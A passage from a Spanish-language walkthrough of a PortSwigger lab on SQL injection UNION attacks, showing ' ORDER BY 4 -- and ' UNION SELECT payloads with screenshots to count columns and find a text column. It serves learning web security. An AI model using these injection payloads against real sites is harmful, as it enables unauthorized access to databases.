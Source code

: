 ```plaintext
' ORDER BY 4 -- 
```


<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_finding_column_containing_text/7.png" width="1000">
</p><br>

```plaintext
' ORDER BY 4 -- Devuelve un mensaje de error 
```
Por lo tanto, el número de columnas devueltas por la consulta original es 3. 

## PASO 2: Descubra la columna que tiene un tipo de datos de cadena.

```plaintext
' UNION SELECT 'a', NULL, NULL --
```

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_finding_column_containing_text/8.png" width="1000">
</p><br>

```plaintext
' UNION SELECT NULL, 'a', NULL --
```


<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_finding_column_containing_text/9.png" width="1000">
</p><br>
